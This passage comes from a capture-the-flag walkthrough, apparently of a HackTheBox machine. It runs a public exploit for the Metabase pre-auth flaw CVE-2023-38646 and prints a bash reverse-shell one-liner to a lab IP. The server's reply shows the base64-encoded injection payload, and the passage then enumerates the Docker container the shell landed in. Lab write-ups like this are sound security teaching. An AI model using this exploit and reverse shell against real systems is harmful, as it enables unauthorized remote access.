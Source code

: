 [![image-20240313200342725](/img/image-20240313200342725.png)*Click for full size image*](/img/image-20240313200342725.png)

The input command is base64 encoded, and then used in the request in the same brace-expanded format:

![image-20240313200422498](/img/image-20240313200422498.png)

#### Running

Running this is very simple:

```

oxdf@hacky$ python cve-2023-38646.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
Payload sent!

NOTE: Make sure to open a listener on the specified port and address if you entered a reverse shell command.

RESPONSE:
{"message":"Error creating or initializing trigger \"PWNSHELL\" object, class \"..source..\", cause: \"org.h2.message.DbException: Syntax error in SQL statement \"\"//javascript\\\\000ajava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYx}|{base64,-d}|{bash,-i}')\\\\000a\"\" [42000-212]\"; see root cause for details; SQL statement:\nSET TRACE_LEVEL_SYSTEM_OUT 1 [90043-212]"}

```

While it returns an error here, it also returns a shell at `nc` listening on 443.

## Shell as metalytics

### Enumeration

#### Container

I can try a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q), but neither `script` nor `python` are installed. This smells like a container. Additionally, the hostname is random characters. There’s a `.dockerenv` file in the system root:

```

b7ed0bb2dd1e:/$ ls -a
.
..
.dockerenv
app
bin
dev
etc
home
lib
media
metabase.db
mnt
opt
plugins
proc
root
run
sbin
srv
sys
tmp
```